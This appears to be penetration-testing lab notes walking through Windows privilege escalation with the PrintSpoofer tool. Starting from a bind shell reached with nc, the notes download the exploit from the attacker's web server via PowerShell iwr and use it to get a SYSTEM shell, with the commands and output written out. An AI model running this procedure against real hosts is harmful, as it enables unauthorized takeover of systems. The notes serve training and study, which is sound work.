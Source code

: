 For this example, we'll use a tool named _PrintSpoofer_ created by _itm4n_, which implements a variation of the _printer bug_ to coerce _NT AUTHORITY\SYSTEM_ into connecting to a controlled named pipe
+ We can use this tool in situations where we have code execution as a user with the privilege _SeImpersonatePrivilege_ to execute commands or obtain an interactive shell as _NT AUTHORITY\SYSTEM_

##### Named Pipe Attack
Now, let's begin by connecting to the bind shell on port 4444 on CLIENTWK220 as we did in the previous sections
+ We use **`whoami /priv`** to display the assigned privileges of _dave_
```
kali@kali:~$ nc 192.168.50.220 4444
Microsoft Windows [Version 10.0.22000.318]
(c) Microsoft Corporation. All rights reserved.

C:\Users\dave> whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeSecurityPrivilege           Manage auditing and security log          Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```
+ Above shows that _dave_ has the privilege _SeImpersonatePrivilege_ assigned
+ Therefore, we can attempt to elevate our privileges by using _PrintSpoofer_. Let's open another terminal tab on Kali, download the 64-bit version of this tool, and serve it with a Python3 web server
+ Get the exploit with:
```
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
```
+ Serve the exploit with:
```
python3 -m http.server 80
```

In the terminal tab with the active bind shell, we'll start a PowerShell session and use **iwr** to download **PrintSpoofer64.exe** from our Kali machine
```
C:\Users\dave> powershell
powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Users\dave> iwr -uri http://192.168.119.2/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe
iwr -uri http://192.168.119.2/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe
```
+ To obtain an interactive PowerShell session in the context of _NT AUTHORITY\SYSTEM_ with _PrintSpoofer64.exe_, we'll enter **powershell.exe** as argument for **-c** to specify the command we want to execute and **-i** to interact with the process in the current command prompt, usage:
```
.\PrintSpoofer64.exe -i -c powershell.exe
```
+ Example usage and output:
```
PS C:\Users\dave> .\PrintSpoofer64.exe -i -c powershell.exe
```

[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> cd C:\
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> pwd
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> dir